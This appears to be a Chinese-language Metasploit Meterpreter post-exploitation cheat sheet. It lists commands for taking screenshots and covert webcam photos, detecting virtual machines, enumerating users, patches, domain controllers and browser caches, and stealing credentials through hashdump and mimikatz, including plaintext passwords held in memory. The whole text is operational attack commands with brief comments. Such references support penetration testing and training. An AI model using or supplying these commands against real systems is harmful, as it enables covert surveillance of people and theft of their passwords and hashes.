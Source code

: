 ## 信息收集

**截屏**
```bash
use espia
screenshot
screengrab
```

**摄像头**
```bash
webcam_snap -i 1 -v fales                               # 不开闪光灯拍照
```

**环境检测**
```bash
run post/windows/gather/checkvm                         # 是否虚拟机
run post/linux/gather/checkvm                           # 是否虚拟机

getuid                                                  # 查看当前用户

run post/windows/gather/enum_applications               # 获取目标主机安装软件信息;
run post/windows/gather/enum_patches                    # 查看目标主机的补丁信息;
run post/windows/gather/enum_domain                     # 查找目标主机域控.
run post/windows/gather/enum_logged_on_users            # 列举当前登陆过主机的用户;
run post/windows/gather/credentials/windows_autologin   # 抓取自动登陆的用户名和密码;

run post/windows/gather/forensics/enum_drives           # 查看分区
run post/windows/gather/enum_applications               # 获取安装软件信息
run post/windows/gather/dumplinks                       # 获取最近的文件操作
run post/windows/gather/enum_ie                         # 获取 IE 缓存
run post/windows/gather/enum_chrome                     # 获取 Chrome 缓存
run post/windows/gather/enum_patches                    # 补丁信息
run post/windows/gather/enum_domain                     # 查找域控

run post/linux/busybox/enum_hosts                       # 读取/var/hosts
run post/windows/gather/enum_hostfile                   # 读取 %windir%\system32\drivers\etc\hosts
```

**抓取密码**
```bash
run hashdump                        # 获取用户密码 hash 值

load mimikatz                       # 加载 mimikatz,用于抓取密码,不限于明文密码和 hash 值;
msv                                 # 获取的是 hash 值
ssp                                 # 获取的是明文信息
kerberos
wdigest                             # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务

run windows/gather/credentials/windows_autologin    # 抓取自动登录的用户名和密码
run windows/gather/smart_hashdump

或

use post/windows/gather/hashdump
set session 1
Exploit
```
